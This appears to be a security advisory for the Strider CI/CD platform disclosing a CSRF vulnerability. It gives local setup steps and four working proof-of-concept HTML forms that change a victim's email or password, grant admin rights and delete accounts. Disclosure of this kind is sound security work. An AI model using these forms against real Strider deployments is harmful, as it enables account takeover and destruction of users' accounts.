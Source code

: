 ## :writing_hand: Description

`Strider` is an Open Source Continuous Deployment / Continuous Integration platform. It is written in Node.js and Ember.js and uses MongoDB as a backing store. This platform is vulnerable to `Cross-Site Request Forgery (CSRF)`. This allowes an attacker to takeover accounts, privillege escalation and accounts deletion.

## :male_detective: Proof of Concept

1. Setup MongoDB
2. Install the package
```bash
git clone https://github.com/Strider-CD/strider.git
cd strider/apps/strider
npm i
node bin/strider addUser # add users accordingly
NODE_ENV=production npm start # start server
```
1. Login as admin
3. Use any of the CSRF POCs
#### Change email
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/api/account/email" method="POST">
      <input type="hidden" name="email" value="admin2&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
#### Change password
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/api/account/password" method="POST">
      <input type="hidden" name="password" value="hacked" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
#### Privilege escalation
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/admin/make_admin">
      <input type="hidden" name="user" value="user&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
#### Account deletion
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/admin/remove_user" method="POST">
      <input type="hidden" name="email" value="admin&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

